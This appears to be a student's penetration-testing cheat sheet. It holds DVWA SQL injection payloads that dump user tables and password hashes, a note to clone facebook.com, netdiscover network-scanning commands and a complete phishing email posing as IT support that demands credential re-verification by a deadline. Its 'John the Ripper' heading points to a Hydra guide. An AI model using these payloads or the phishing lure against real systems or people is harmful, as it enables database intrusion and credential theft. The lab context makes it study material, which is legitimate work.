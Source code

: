 # SQLi
When DVWA security is set to LOW:
1.)Reveals all user is:1' OR '1'='1'#
2.)Reveals name of all tables in the database:'UNION SELECT table_name, NULL FROM information_schema.tables#
3.)Reveals all the column names form 'users' table:'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#
4.)Reveals all the usernames and password hashes:'UNION SELECT user, password FROM users#

# Siteclone
https://facebook.com

# John the Ripper
https://www.stationx.net/how-to-use-hydra/

# netdiscover
Command | Explanation

sudo netdiscover | Auto-scans your current subnet to find live hosts.

sudo netdiscover -r 192.168.1.0/24 | Scans a specific subnet range manually.

sudo netdiscover -f | Performs a fast scan with less accuracy.

sudo netdiscover -i eth0 | Uses a specific network interface (e.g., eth0 or wlan0).

sudo netdiscover -r 192.168.1.0/24 > output.txt | Saves scan results to a text file.

sudo netdiscover -s | Continuously scans and updates live devices in real-time.

sudo netdiscover -p | Passive mode: silently listens to ARP traffic without sending packets.

# Phishing
Subject: [Action Required] System Security Update – Verify Your Account

Dear [Employee Name],

As part of our institution's routine security maintenance, we are rolling out an update to the internal login portal. To ensure uninterrupted access, all users are required to re-authenticate their credentials.

Please verify your account by visiting the secure portal at the link below:

https://institution-login-verification.example.com

This must be completed by 6:00 PM today to prevent temporary access restrictions.

Thank you for your prompt attention.

Sincerely,
IT Support Team
[Institution Name]
